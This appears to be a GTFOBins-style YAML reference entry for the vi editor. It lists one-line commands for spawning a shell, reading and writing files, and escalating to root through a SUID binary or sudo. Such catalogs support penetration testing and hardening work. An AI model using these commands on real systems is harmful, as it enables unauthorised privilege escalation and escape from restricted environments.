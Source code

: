 ```yaml
---
functions:
  shell:
    - code: vi -c ':!/bin/sh'
    - code: |
        vi
        :set shell=/bin/sh
        :shell
    - code: vi -c ':py import os;os.system("sh")'
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  suid:
    - code: ./vi -c ':!/bin/sh -p'
  sudo:
    - code: sudo vi -c ':!/bin/sh'
    - code: sudo vi -c ':py import os;os.system("sh")'
---
```

